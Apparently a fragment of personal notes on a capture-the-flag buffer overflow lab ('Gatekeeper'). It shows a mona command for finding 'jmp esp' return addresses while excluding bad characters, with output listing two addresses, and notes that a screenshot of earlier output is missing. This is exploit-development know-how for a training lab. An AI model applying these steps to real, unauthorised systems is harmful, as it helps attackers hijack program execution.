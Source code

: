 
We start the program using Immunity Debugger and crash it using out [[Code/badchars.py]] script:
![[Images/Pasted image 20250117221906.png]]

output missing - stream screnshot?



We run the mona command:
`!mona jmp -r esp -cpb "\x00\x0a"`

Output:
```sh
080414C3    0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, CFG: False, OS: True, v-1.0- (C:\Users\Windows10x64VMUser\Desktop\thm-gatekeeper\gatekeeper.exe), 0x8000
080416BF    0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, CFG: False, OS: True, v-1.0- (C:\Users\Windows10x64VMUser\Desktop\thm-gatekeeper\gatekeeper.exe), 0x8000
```

We now have two instruction we can use to jump to our code.
